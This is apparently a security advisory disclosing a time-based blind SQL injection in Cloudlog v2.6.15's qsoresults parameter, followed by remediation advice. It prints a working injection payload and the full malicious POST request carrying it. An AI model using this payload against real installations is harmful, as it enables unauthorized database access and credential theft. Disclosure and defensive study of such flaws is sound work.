 # SQL injection in Cloudlog v2.6.15 - qsoresults parameter


A time-based blind SQL Injection vulnerability has been identified in the **Cloudlog v2.6.15 platform**, at the endpoint /index.php/logbookadvanced/search, through the qsoresults parameter . This vulnerability allows a malicious user to execute arbitrary SQL commands on the MySQL database, compromising the security of the system.

# Vulnerable endpoint:
URL: /index.php/logbookadvanced/search
Method: POST
Vulnerable parameter: qsoresults

# Vulnerability Details:

The vulnerability exploits an SQL injection to force the execution of an SQL function (such as BENCHMARK or EXTRACTVALUE), deliberately slowing down the system to confirm the existence of the vulnerability.


Payload:
**qsoresults=250 PROCEDURE ANALYSE(EXTRACTVALUE(1073,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x65636f70))))),1)**


 
**Malicious HTTP Request:**

POST /index.php/logbookadvanced/search HTTP/1.1

Host: localhost

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Content-Length: 104


qsoresults=250 PROCEDURE ANALYSE(EXTRACTVALUE(1073,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x65636f70))))),1)



# Impact:
An attacker can exploit this vulnerability to:
Execute arbitrary SQL queries, potentially extracting sensitive data.
Compromise database integrity.
Gain unauthorized access to critical data such as user credentials.

# Recommended Solution:
Input Validation: Implement strict input sanitization for the qsoresults parameter .
Parameterized Queries: Use parameterized queries to prevent user injection of SQL commands.
Permission Restriction: Restrict the privileges of the database user used by the application.
Web Application Firewall (WAF): Implement a WAF to monitor and block SQL injection attempts.




